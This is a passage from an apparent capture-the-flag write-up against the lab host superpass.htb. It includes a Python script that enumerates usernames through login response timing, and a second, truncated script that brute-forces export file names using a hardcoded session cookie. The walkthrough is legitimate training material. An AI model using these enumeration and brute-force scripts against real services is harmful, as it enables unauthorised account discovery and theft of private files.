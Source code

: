 The code was reading the user from the database. And if the user existed, it would try to verify the hash. From this I knew that a login request would take longer if the username existed in the database. I wrote a script to find usernames.

```python

import requests
import sys

def try_username(username):
    url = 'http://superpass.htb/account/login'
    data = {'username': username, 'password': 'aaa'}

    response = requests.post(url, data)

    return response.elapsed.total_seconds() > 0.1

if len(sys.argv) != 2:
    print(f"Usage:\n{sys.argv[0]} FILENAME\n")
    exit()

filename = sys.argv[1]
file = open(filename, 'r')
count = 0
for line in file:
    username = line.strip()
    if try_username(username):
        print(username)

    count += 1
    if count % 100 == 0:
        print(count, file=sys.stderr)
```

I ran the script, but it returned way too many false positive. The fact that I was trying other things while it ran probably did not help.

From the passwd file, I knew that the box had a user called 'corum', so I tried to brute force their export filename. I did not have much hope. The code used microseconds, it made for way too many possibilities. But I tried anyway.

```python
#!/usr/bin/env python3

import datetime
import hashlib
import requests

session = ".eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZBdL1A.pWh1lNi9qX-RudtQzK-GIiKP5Ig"

def request_file(file_name, use_proxy):
    proxy_servers = {
        'http': 'http://localhost:8080',
    }

    s = requests.Session()
    if use_proxy:
        s.proxies = proxy_servers

    url = f'http://superpass.htb/download?fn={file_name}'
    cookie = {"session": session}
    response = s.get(url, cookies=cookie)

    if 200 == response.status_code:
```